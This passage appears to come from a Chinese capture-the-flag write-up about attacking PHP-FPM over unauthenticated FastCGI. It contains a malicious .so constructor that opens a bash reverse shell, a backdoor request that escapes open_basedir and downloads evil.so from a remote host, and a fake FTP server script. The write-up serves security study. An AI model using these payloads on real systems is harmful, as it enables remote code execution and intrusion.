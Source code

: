 



那先读取其他内容

读取`/usr/local/etc/php/php.ini`,看php.ini中的东西

在输出中我们可以看到`extension=easy_bypass.so`，这是加载了异常so文件，**这儿可以利用pwn的**（不太会）

![image-20220224234018259](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202242340347.png)

读取下`/etc/nginx/nginx.conf`的配置文件

![image-20220224234236019](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202242342115.png)

看到`/etc/nginx/sites-enabled/*`，直接读取nginx的默认配置

![image-20220224234356568](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202242343658.png)

知道了`fastcgi`的端口，并且fpm是active的

####  利用未授权打FPM RCE

##### 加载恶意so文件

写so扩展

```php
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'");
}
```

编译（linux）上

```
gcc evil.c -fPIC -shared -o evil.so
```

将编译好的so文件上传到/tmp目录上，实现加载so文件

```
add_api.php?backdoor=mkdir('flag');chdir('flag
');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');copy("http://xx.xx.xx.xx/evil.so","/tmp/evil.so");
```

#####  开启FTP服务器

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 123))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
```